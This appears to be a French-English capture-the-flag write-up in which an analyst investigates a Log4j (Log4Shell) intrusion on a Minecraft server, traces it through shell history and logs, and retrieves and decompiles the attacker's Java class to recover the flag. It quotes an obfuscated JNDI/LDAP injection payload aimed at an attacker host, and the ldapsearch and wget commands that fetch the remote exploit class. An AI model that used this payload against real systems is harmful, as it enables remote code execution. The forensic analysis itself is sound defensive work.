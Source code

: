# Detection  / Piratecraft

## Challenge
Un service d'hébergement de serveurs de jeux fournit des VPS avec Minecraft préinstallé pour leurs clients. Certaines attaques ciblent les serveurs et les font tomber en panne. Vous êtes le nouvel administrateur système. Vous avez accès à un serveur attaqué. Détectez l'intrusion sur le serveur Minecraft et essayez de comprendre les actions malveillantes.


## Solution
ssh onto the server as root using the provided credentials:

```console
$ ssh root@ssh-piratecraft-server-azjcbp.inst.malicecyber.com  -p 4106 -o ServerAliveInterval=30 -o ServerAliveCountMax=2
```

We find an interesting indication in the the `Minecraft` server start script: the attacker added `echo "Hacked by unhappy.competitor.com"` to the script:

```console
root@malice:/home/app# cat .bash_history
whoami
mkdir /home/craft
cd /home/craft/
ls -lthar
apt-get update -y
apt-get install -y openjdk-17-jdk openjdk-17-jre git zip screen wget nano openssh-server php7.4
https://launcher.mojang.com/v1/objects/0a269b5f2c5b93b1712d0f5dc43b6182b9ab254e/server.jar
mv server.jar minecraft_server.jar
nano /home/craft/start.sh
chmod -R 775 /home/craft/
screen -ls
/home/craft/start.sh minecraft "java -Xmx1024M -Xms1024M -jar /home/craft/minecraft_server.jar nogui &"
screen -R minecraft
cat /var/log/minecraft.log
ls -lthar
pwd
whoami
netstat -lentupac
rm minecraft_server.jar
echo "Hacked by unhappy.competitor.com"
```

Looking into the Minecraft logs in `/var/log/minecraft.log`, we see weird command injection from user `unhappy`:
```console
root@malice:/var/log# grep -i unhappy minecraft.log
[16:39:32] [User Authenticator #10639/INFO]: UUID of player unhappy is a00b999e-001b-4807-b999-add902b9999c
[16:39:32] [Server thread/INFO]: unhappy[/172.240.18.1:57008] logged in with entity id 10991 at (-257.5, 67.0, -198.5)
[16:39:32] [Server thread/INFO]: unhappy joined the game
[16:39:33] [Server thread/INFO]: <unhappy> ${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}l${lower:D}ap${sd:k5:-:}//unhappy.competitor.com:1389/a}
[16:39:33] [Server thread/INFO]: <unhappy> Reference Class Name: foo
[16:40:02] [Server thread/INFO]: unhappy lost connection: Disconnected
[16:40:02] [Server thread/INFO]: unhappy left the game
```

Sounds like the infamous `Log4j`!

The attacker used some bypass technique, but the payload is essentially `${jndi:ldap:unhappy.competitor.com:1389/a}`

Looking into the logs for `LDAP` commands:
```console
root@malice:/var/log# grep -rain ldap
(pr(P0H0@8`H8` 8\rSYSLOG_IDENTIFIER=ldapsearchazCSYSLOG_TIMESTAMP=May 10 11:43:48 c+A*ЬMESSAGE=DIGEST-MD5 common mech freeH7[j63a_PID=533PS$,>!Xa_COMM=ldapsearchXN/
                                                                                                                                                                    x_EXE=/usr/bin/ldapsearchʯa_CMDLINE=ldapsearch -x -H ldap://174.10.54.15:1389/Exploit.classPSLDF+bpt_AUDIT_SESSION=1xW9ct_SYSTEMD_CGROUP=/user.slice/user-0.slice/session-1.scopeR`R
(...)
```

So we see this `LDAP` command: `ldapsearch -x -H ldap://174.10.54.15:1389/Exploit.class`

Let's run it and see where it sends us:
```console
root@malice:/var/log# ldapsearch -x -H ldap://174.10.54.15:1389/Exploit.class
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

#
dn:
javaClassName: foo
javaCodeBase: http://174.10.54.15:50666/
objectClass: javaNamingReference
javaFactory: Exploit84686564564857543

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

The location of the malicious Java class can be deduced from `javaCodeBase` and `javaFactory`. Let's fetch it:
```console
root@malice:~# wget http://174.10.54.15:50666/Exploit84686564564857543.class
--2022-11-12 15:02:13--  http://174.10.54.15:50666/Exploit84686564564857543.class
Connecting to 174.10.54.15:50666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5067 (4.9K) [application/java-vm]
Saving to: 'Exploit84686564564857543.class'

Exploit84686564564857543.cla 100%[==============================================>]   4.95K  --.-KB/s    in 0s

2022-11-12 15:02:13 (155 MB/s) - 'Exploit84686564564857543.class' saved [5067/5067]
```

This is compiled Java class. Decompile it Using `jadx` locally on our box:
```console
$ file Exploit84686564564857543.class 
Exploit84686564564857543.class: compiled Java class data, version 52.0 (Java 1.8)

$jadx -d out Exploit84686564564857543.class                                                                   
INFO  - loading ...                                                                                                   
INFO  - processing ...                                                                                                
INFO  - done  

$ find out
out
out/sources
out/sources/defpackage
out/sources/defpackage/Exploit.java
```

At last we get the `Exploit.java` source code: [Exploit.java](./Exploit.java).

After some cleanup (remove the stuff with the TCP socket), we get our modified `ModifExploit.java`. After compilation and execution:
```console
$ javac ModifExploit.java
$ java ModifExploit
###########################################
# - - - - -  WELCOME IN SHELL - - - - - - #
# - - ALL YOUR CUBES ARE BELONG TO US - - #
# -- $Hacked_by_unhappy.competitor.com -- #
# DGHACK{411_Y0Ur_CU835_4r3_8310N6_70_U5} #
###########################################
```

## Flag
DGHACK{411_Y0Ur_CU835_4r3_8310N6_70_U5}

